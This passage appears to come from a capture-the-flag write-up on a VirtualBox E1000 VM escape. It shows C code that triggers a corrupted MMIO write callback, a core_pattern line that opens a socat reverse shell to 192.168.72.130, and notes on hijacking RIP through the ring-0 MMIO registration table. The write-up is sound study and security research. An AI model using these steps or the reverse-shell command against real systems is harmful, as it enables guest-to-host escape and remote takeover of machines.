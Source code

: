 So writing the `E1000_EECD` register will trigger a ring-3 MMIO handler. It will try to lookup the MMIO registration table, get the write handler ( `pfnWriteCallback` ) and execute it. Since `pfnWriteCallback` is corrupted, it will trigger SEGV in ring-3 and execute our command in `core_pattern`. Here's how we can trigger the write to `E1000_EECD`:

```c
// trigger crash
// this is a R3 MMIO write ( return VINF_IOM_R3_MMIO_WRITE; in e1kRegReadEECD )
int* inst2 = ioremap(E1000_MMIO_BASE,0x1000);
inst2[0x10/4] = 0; // E1000_EECD = E1000_MMIO_BASE + 0x10
```

After the crash, you should see the `123` file in `/tmp`. 

### Reverse shell and other stuff
To do some other stuff like reverse shell, we can use the `socat` command ( yes, `socat` was installed inside the QEMU VM 😀):

```
|/usr/bin/socat exec:'bash',pty,stderr,setsid,sigint,sane tcp:192.168.72.130:44444
```

Notice that not all the command will be executed, since there are some limitations during the core dump. You can check the Linux source code for more information.

A final note is that the `core_pattern` trick won't work if VirtualBox is run by a non-root user ( like the one in `Fourchain - One For All` ). This is because `VBoxHeadless` is a suid binary, and only root can generate core dump while executing such binary. If it's run by a non-root user, we'll have to use other techniques to exploit the bug, such as:

* Control RIP in ring-0 and try call `call_usermodehelper` to execute command.
* Control RIP in ring-3 and try call `system()` in user space.

### Escaping a non-root VirtualBox

To escape a non-root VirtualBox, we'll have to hijack RIP instead of triggering crash. To achieve this, we can leverage the MMIO registration table in ring-0. Here's the reminder of the code in `IOMR0MmioGrowRegistrationTables`:

```c
PIOMMMIOENTRYR0 const paRing0 = (PIOMMMIOENTRYR0)RTR0MemObjAddress(hMemObj);
PIOMMMIOENTRYR3 const paRing3 = (PIOMMMIOENTRYR3)((uintptr_t)paRing0 + cbRing0);
```

Here `paRing0` is the MMIO registration table in ring-0, while `paRing3` is the MMIO registration table in ring-3 ( will be mapped to both kernel space and user space ). We'll be focusing on `paRing0` in this case.

Each entry in `paRing0` is a `IOMMMIOENTRYR0` structure ( which is controllable since we can read/write kernel memory ) :

```c
// src/VBox/VMM/include/IOMInternal.h

/**
 * Ring-0 MMIO handle table entry.
 */
typedef struct IOMMMIOENTRYR0
{
    /** The number of bytes covered by this entry, 0 if entry not used. */
    RTGCPHYS                            cbRegion;
    /** Pointer to user argument. */
    RTR0PTR                             pvUser;
    /** Pointer to the associated device instance, NULL if entry not used. */
    R0PTRTYPE(PPDMDEVINS)               pDevIns;
    /** Pointer to the write callback function. */
    R0PTRTYPE(PFNIOMMMIONEWWRITE)       pfnWriteCallback;
    /** Pointer to the read callback function. */
    R0PTRTYPE(PFNIOMMMIONEWREAD)        pfnReadCallback;
```